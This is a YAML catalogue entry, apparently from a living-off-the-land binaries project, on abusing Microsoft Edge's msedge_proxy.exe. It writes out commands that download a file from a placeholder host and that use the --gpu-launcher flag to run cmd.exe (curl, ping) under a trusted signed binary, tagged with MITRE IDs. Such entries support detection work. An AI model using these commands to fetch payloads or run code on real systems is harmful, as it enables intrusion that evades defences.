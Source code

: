 ```yaml
---
Name: msedge_proxy.exe
Full_Path:
  - Path: C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe
Description: Microsoft Edge Browser
Author: 'Mert Daş'
Created: 2023-08-18
Commands:
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe http://example.com/test.zip"
    Description: msedge_proxy will download malicious file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c curl ipinfo.io/json --output %USERPROFILE%\\\\Desktop\\\\test.json &&\""
    Description: Edge will silently download the file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c ping google.com &&\""
    Description: msedge_proxy.exe will execute file in the background
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10, Windows 11
Acknowledgement:
  - Person: Mert Daş
    Handle: '@merterpreter'
---
```

